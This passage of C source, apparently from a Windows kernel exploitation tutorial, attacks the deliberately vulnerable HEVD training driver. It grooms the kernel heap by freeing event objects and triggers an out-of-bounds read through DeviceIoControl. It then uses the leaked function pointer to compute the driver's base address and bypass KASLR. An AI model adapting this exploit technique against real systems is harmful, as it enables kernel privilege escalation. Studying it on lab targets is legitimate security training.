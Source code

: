 ```c
        printf("[+] Allocated objects containing a pointer to HEVD in place of the freed CreateEventA objects!\n");

        // Close the rest of the event objects
        for (int i = 1; i <= 5000; i += 2)
        {
            BOOL tempHandle2 = CloseHandle(
                eventObjects[i]
            );

            eventObjects[i] = NULL;

            // Error handling
            if (!tempHandle2)
            {
                printf("[-] Error! Unable to free the rest of the CreateEventA objects! Error: 0x%lx\n", GetLastError());

                return 0x1;
                exit(-1);
            }
        }

        // Array to store the buffer (output buffer for DeviceIoControl) and the base address
        unsigned long long outputBuffer[100];
        unsigned long long hevdBase = 0;

        // Everything is now, theoretically, [FREE, UAFOBJ, FREE, UAFOBJ, FREE, UAFOBJ], barring any more randomization from the kLFH
        // Fill some of the holes, but not all, with vulnerable chunks that can read out-of-bounds (we don't want to fill up all the way to avoid reading from a page that isn't mapped)

        for (int i = 0; i <= 100; i++)
        {
            // Return buffer
            DWORD bytesReturned1;

            DeviceIoControl(
                driverHandle,
                0x0022204f,
                NULL,
                0,
                &outputBuffer,
                sizeof(outputBuffer),
                &bytesReturned1,
                NULL
            );

        }

        printf("[+] Successfully triggered the out-of-bounds read!\n");

        // Parse the output
        for (int i = 0; i <= 100; i++)
        {
            // Kernel mode address?
            if ((outputBuffer[i] & 0xfffff00000000000) == 0xfffff00000000000)
            {
                printf("[+] Address of function pointer in HEVD.sys: 0x%llx\n", outputBuffer[i]);
                printf("[+] Base address of HEVD.sys: 0x%llx\n", outputBuffer[i] - 0x880CC);

                // Store the variable for future usage
                hevdBase = outputBuffer[i] - 0x880CC;
```